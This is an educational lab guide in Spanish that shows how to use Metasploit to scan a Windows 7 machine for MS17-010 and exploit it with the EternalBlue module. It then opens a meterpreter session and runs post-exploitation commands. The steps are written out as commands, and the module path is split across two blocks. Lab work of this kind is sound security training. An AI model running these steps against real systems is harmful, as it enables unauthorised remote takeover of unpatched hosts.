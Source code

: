Explotación de vulnerabilidad utilizando metasploit
===============
Este laboratorio es para fines educativos y su contenido no debe ser utilizado para fines ilícitos  

**Objetivos**
* Experimentar la explotación de una vulnerabilidad 
* Interactuar con la consola de comandos de comandos de metasploit. 
* Interactuar con la consola de comandos de meterpreter.  

**Requisitos**
* Máquina objetivo:Windows 7 64 bits vulnerable  
* Equipo Auditor: Kali Linux 

**Utilizar un scanner para detercar si el equipo es vulnerable a  MS17-010**
* Desde Kali Linux Inicie una sesión de terminal y escriba los siguientes comandos:
```
msfconsole
```
![alt text](./lab01-images/lab01-fig1-msf-console.png "Metasploit framework")

```
Search ms17_10
```
```
use auxiliary/scanner/smb/smb_ms17_010
``` 
```
set RHOSTS “Dirección IP del host windows 7 64bits”
```
```
run
```
**Exploiting**
```
use exploit/windows/smb/
```
```
ms17_010_eternalblue
```
```
show options
``` 
```
set RHOST < Rhost-id > 
```
```
exploit 
```
 
**Post Exploitation**
```bash
Sysinfo
```
```bash
Getuid
```
```Bash
Shell
```

Enlace para mayor información
----- https://www.metasploit.com/
